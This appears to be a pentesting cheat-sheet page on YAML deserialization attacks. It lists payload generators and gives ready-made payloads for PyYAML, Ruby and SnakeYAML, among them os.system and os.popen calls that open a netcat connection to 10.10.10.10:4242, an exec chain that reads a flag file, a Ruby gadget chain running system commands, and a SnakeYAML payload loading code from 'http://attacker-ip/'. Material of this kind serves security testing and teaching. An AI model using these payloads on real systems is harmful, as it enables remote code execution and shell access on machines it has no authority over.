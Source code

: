 +++
title = "YAML Deserialization"
description = "YAML deserialization attacks"
date = "2023-03-28"
include_toc = 'true'
+++

# YAML Deserialization

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
    * [PyYAML](#pyyaml)
    * [ruamel.yaml](#ruamelyaml)
    * [Ruby](#ruby)
    * [SnakeYAML](#snakeyaml)
* [References](#references)

## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [artsploit/yaml-payload](https://github.com/artsploit/yaml-payload) - A tiny project for generating SnakeYAML deserialization payloads
* [mbechler/marshalsec](https://github.com/mbechler/marshalsec)

## Exploit

### PyYAML

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for ```load``` has been switched to SafeLoader mitigating the risks against Remote Code Execution.
[PR fixing the vulnerabily](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now ```yaml.unsafe_load``` and ```yaml.load(input, Loader=yaml.UnsafeLoader)```

```
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## Ruamel.yaml

## Ruby

```ruby
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```


## References

* [Python Yaml Deserialization - hacktricks.xyz][https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization]
* [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13][https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf]
* [PyYAML Documentation](https://pyyaml.org/wiki/PyYAMLDocumentation)
* [Blind Remote Code Execution through YAML Deserialization - 09 JUNE 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
* [[CVE-2019-20477]- 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - @_j0lt](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)